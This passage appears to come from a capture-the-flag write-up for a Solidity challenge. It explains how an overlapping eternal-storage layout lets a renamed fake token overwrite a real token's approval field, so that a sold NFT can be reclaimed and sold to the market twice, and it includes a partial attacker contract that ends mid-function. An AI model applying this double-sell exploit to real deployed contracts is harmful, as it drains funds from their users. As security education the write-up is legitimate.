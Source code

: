 ```solidity
// after mint
// slot = tokenId
+ 0 (name): "My First Collectible",
+ 1 (owner): owner
+ 2 (approval): owner
+ 3 (metadata): owner
```

After selling it to the market, the market resets its approval to `0` and sets the owner to the market. Note that the `metadata` field is not cleared which we will abuse next.

```solidity
// after market sell
// slot = tokenId
+ 0 (name): "My First Collectible",
+ 1 (owner): market
+ 2 (approval): 0
+ 3 (metadata): owner
```

We can reclaim our token by changing the name of a fake token with id `tokenId + 2`. This writes to `(tokenId + 2) + 0 = tokenId + 2` which means the fake token's `name` is the real token's `approval` field. We can choose our address as the `name`.

```solidity
// after eternalStorage.updateName(tokenId + 2, bytes32(uint256(address(this))));
// slot = tokenId
+ 0 (name): "My First Collectible",
+ 1 (owner): market
+ 2 (approval): owner
+ 3 (metadata): owner
```

We can now use `transferFrom` to reclaim ownership of the token and sell it to the market a second time.

This challenge is only solved if the market balance is exactly zero which requires choosing a perfect token price during the initial mint. However, the token price does not equal the sent amount of Ether as a fee reduces the price.
A nice way to fix this is by choosing a high initial token price and sending the missing ether to the contract through a selfdestruct contract or by minting a second token.

```solidity
contract MarketAttacker {
    function attack() external payable {
        // the token price is not the one we send, it's - 10/11 of it
        bytes32 tokenId =
            market.mintCollectibleFor{value: 70 ether}(address(this));

        // need to set approval to market for sellCollectible check
        token.approve(tokenId, address(market));
        // update @tokenId + 3 to "this"
        eternalStorage.updateMetadata(tokenId, address(this));

        // sell it to the market
        market.sellCollectible(tokenId);

        reclaimToken(tokenId);

        // we need to completely empty market which is annoying because of fee
        // so we need to send some more funds to the market to be able to withdraw
        // all of it
        fixMarketBalance(70 ether);

        // sell it again!
        market.sellCollectible(tokenId);

```